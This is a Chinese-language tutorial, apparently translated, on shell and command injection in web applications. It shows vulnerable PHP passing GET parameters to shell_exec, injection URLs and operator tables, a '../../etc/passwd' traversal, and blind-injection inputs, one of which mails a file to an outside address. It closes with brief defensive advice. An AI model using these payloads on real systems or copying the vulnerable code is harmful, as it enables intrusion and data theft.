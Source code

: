 # Shell Injection & Command Injection

0x00 前言
-------

* * *

Shell注入(Shell Injection)，也被称为命令注入(Command Injection)，虽然不是最经常提及或发现的漏洞，但是危害巨大。

下面展开讨论一下shell注入。

0x01 简单介绍
---------

* * *

通常情况下，Web应用程序会有需要执行shell命令的时候，有可能只是使用Unix sendmail程序发送电子邮件，或运行指定的Perl和C + +程序。从开发的角度来看，这样做可以减少程序的开发时间。然而，如果数据是通过一个用户界面传递到这些程序中，则攻击者可能能够注入shell命令到这些后台程序。

举一个简单的例子：

```
<?php
echo shell_exec('cat '.$_GET['filename']);
?>

```

看起来很好用，我们需要输出文件内容，直接用cat输出，比如同目录下有一个my_great_content.txt文件，那么请求的url就为：

```
www.mysite.com/viewcontent.php?filename=my_great_content.txt

```

开发只需要一行代码，就可以达到期望的功能。

但是不幸的是，这段代码是不安全的，攻击者只需要使用一个分号（;）就可以继续执行其他的命令。

```
www.mysite.com/viewcontent.php?filename=my_great_content.txt;ls

```

该页面除了返回文件内容之外呢，还返回了当前目录下的文件

实际上这个文件除了shell注入之外，还有目录遍历的问题，使用`../../etc/passwd`等获取其他文件内容。

0x02 如何利用
---------

* * *

在前面的内容中，我们看到了如何进行命令注入的简单案例。下面看下shell注入的几种情况，以及如何进行shell注入。假设一些我们经过分析，已经发现了一个网站有shell注入，那么你将有很多种注入的方式。

前面的例子中，获取文件名并使用cat命令获取文本内容输出，我们可以使用分号（;）分隔进行注入，然而肯定有开发人员意识到此问题了，可能会过滤分号，但是仍有绕过的方式，下面是在shell注入中可能会用的字符，介绍一下：

### 重定向操作符

例如：`<，>>，>`

这些运算符是把结果输出到服务器的其他地方，< 是从文件中而不是从键盘中读入命令输入，可能被用来绕过过滤。>是把结果重定向到文件中，而不是写在命令提示符窗口中。>>把结果追加到别的文本当中，而不改变原来的内容。

### 管道符

例如：`|`

管道符可以把一个命令的输出重定向到下一个命令的输入，例如

```
cat file1 | grep "string"

```

### inline命令

例如：`;，,，$`

用来结束之前的命令，直接执行新的命令。

### 逻辑运算符

例如：`$，&&，||`

这些运算符用来对数据进行逻辑上的运算

### 常见的注入语句与结果

```
`shell_command`  执行shell_command命令
$(shell_command) 执行shell_command命令
| shell_command 执行shell_command命令并返回结果
|| shell_command 执行shell_command命令并返回结果
; shell_command 执行shell_command命令并返回结果
&& shell_command 执行shell_command命令并返回结果
> target_file 返回结果覆盖到target_file里
>> target_file 返回结果追加到target_file里
< target_file 把target_file的内容输入到之前的命令当中
- operator 给目标指令添加额外的参数

```

0x03 如何寻找shell注入
----------------

* * *

主要是寻找你怀疑的某个功能可以是后端用命令来执行的，可以进行简单的测试，由于操作系统系统可能不同，那么你测试的语句也应该是不一样的：

```
(Windows) <normal_input>; dir c:
(Unix)    <normal_input>; ls

```

同时还要注意执行命令可能存在的引号，例如：

```
<?php
//sending the input directly. Attack with a string like file.txt;ls
echo shell_exec('cat '.$_GET['command']);
?>

<?php
//input is placed in quotes.  You must end the quotes to execute an injection.
//Craft an attack with a string like file.txt";ls
echo shell_exec('cat "'.$_GET['command']).'"';
?>

```

### 盲注

如果有时候并没有命令回显，那么可以用以下方式检测是否存在盲注：

```
file.txt;mail tester@test.com < file.txt    //send an email to yourself
file.txt;ping www.test.com      //ping a webserver you have control of
file.txt;echo "test" > test.txt     //write the word "test" to test.txt. try opening this file with the browser. 

```

0x04 如何防御
---------

* * *

尽管上面说有很多方式进行shell注入，但是可以用几个简单的方式进行防御，最主要的是过滤所有用户输入的数据，最好是能避免用户的数据直接进入命令执行当中，如果不可避免，尽量避免（; | &）等符号，最好是用白名单。

如果不能是白名单，PHP当中提供了escapeshellarg和escapeshellcmd两个函数进行过滤，但这并不能完全保障代码的安全性。需要具体情况再做相应的滤。

from:[https://www.golemtechnologies.com/articles/shell-injection#how-to-test-if-website-vulnerable-to-command-injection](https://www.golemtechnologies.com/articles/shell-injection#how-to-test-if-website-vulnerable-to-command-injection)